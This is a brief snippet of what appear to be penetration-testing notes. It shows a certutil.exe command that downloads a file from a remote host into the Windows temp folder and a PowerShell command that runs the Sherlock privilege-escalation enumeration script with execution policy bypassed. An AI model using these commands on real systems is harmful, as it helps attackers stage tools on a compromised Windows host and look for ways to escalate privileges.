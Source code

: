 # Download a file
<code> certutil.exe -urlcache -f http://host/src_file C:\Windows\TEMP\destination_file </code>


# Run command directly from powershell 

<code> powershell -exec bypass -command "& 'C:\Windows\TEMP\Sherlock.ps1' | out-file C:\Windows\TEMP\enumresult.txt"  </code>
* & is needed to start the script
* output is written to a file
